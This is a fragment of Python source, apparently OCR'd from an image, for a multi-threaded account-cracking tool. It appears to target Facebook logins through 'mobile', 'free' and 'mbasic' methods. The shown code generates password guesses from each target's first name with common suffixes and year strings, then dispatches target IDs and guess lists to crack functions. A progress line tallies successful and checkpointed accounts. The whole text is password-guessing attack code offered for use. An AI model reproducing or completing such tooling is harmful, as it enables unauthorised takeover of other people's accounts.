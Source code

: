 					pwv.append(frs+'123@')
					pwv.append(frs+'@123')
					pwv.append(frs+'123@')
					pwv.append(frs+'0000')
					pwv.append("1122334455")
					pwv.append("1234512345")
					pwv.append("19901990")
					pwv.append("12345678900")
					pwv.append("19951995")
					pwv.append("20012001")
					pwv.append("20022002")
					pwv.append("20032003")
					pwv.append("20042004")
					pwv.append("20052005")
			else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12')
					pwv.append(frs+'1111')
					pwv.append(frs+'1212')
					pwv.append(frs+'123123')
					pwv.append(frs+'1234512345')
					pwv.append(frs+'0000')
					pwv.append(frs+'1010')
					pwv.append(frs+'123@')
					pwv.append(frs+'@123')
					pwv.append(frs+'123@')
					pwv.append(frs+'0000')
					pwv.append("1122334455")
					pwv.append("1234512345")
					pwv.append("19901990")
					pwv.append("12345678900")
					pwv.append("19951995")
					pwv.append("20012001")
					pwv.append("20022002")
					pwv.append("20032003")
					pwv.append("20042004")
					pwv.append("20052005")

			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	exit()
# Mobile 
def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\r JEERY {P}[{k}\033[1;31m{loop}\033[1;31m{P}/{h}{len(id)}{P}] - {P}{H}SUCCES - {ok}{P} : {P}\033[1;34mCHECK - {cp}{x} : {bo}{'{:.0%}'.format(loop/float(len(id)))}{P}  "),
	sys.stdout.flush()